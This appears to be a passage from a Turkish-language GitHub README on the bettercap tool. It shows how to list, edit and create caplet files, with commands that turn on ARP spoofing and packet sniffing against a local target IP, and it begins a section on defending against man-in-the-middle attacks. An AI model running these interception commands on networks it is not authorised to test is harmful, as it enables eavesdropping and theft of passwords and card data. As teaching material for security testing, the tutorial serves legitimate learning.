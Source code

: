```bash
ls /usr/share/bettercap/caplets/
```
2️⃣ Bir Caplet Dosyasını Düzenleme
Örneğin, spoofing.cap adında bir caplet dosyasını değiştirmek istiyorsan:
```
sudo nano /usr/share/bettercap/caplets/spoofing.cap

```
Bu dosyayı açtıktan sonra, içerisine aşağıdaki gibi özel komutlar ekleyebilirsin:


```bash
set net.sniff.verbose true
net.sniff on
arp.spoof on

```
Kaydetmek için:
CTRL + X, ardından Y ve Enter ile dosyayı kaydet.

3️⃣ Yeni Bir Caplet Dosyası Oluşturma
Kendi caplet dosyanı oluşturmak için:

````bash
sudo nano /usr/share/bettercap/caplets/custom.cap

````
İçerisine şu gibi komutlar ekleyebilirsin:


````bash
# ARP Spoofing ile ağ trafiğini izleme
set arp.spoof.targets 192.168.1.10
arp.spoof on
net.sniff on
````
Kaydettikten sonra şu komutla çalıştırabilirsin:
````
sudo bettercap -caplet /usr/share/bettercap/caplets/custom.cap
````

📌 Caplet Dosyalarını Kullanarak Ne Yapılabilir?
🔹 Otomatik Man-in-the-Middle (MITM) saldırıları

🔹 Ağ trafiğini analiz etme ve paketleri yakalama

🔹 DNS spoofing, ARP spoofing ve daha fazlasını otomatikleştirme

🔹 Ağ üzerindeki cihazları izleme ve açıkları belirleme



# 🔒 MITM (Man-in-the-Middle) Saldırılarından Nasıl Korunulur?

MITM saldırıları, bir saldırganın iki taraf arasındaki iletişimi gizlice dinleyerek veya değiştirerek kullanıcı verilerini ele geçirmesine olanak tanır. Parolalar, kredi kartı bilgileri ve hassas veriler bu saldırılarla çalınabilir.
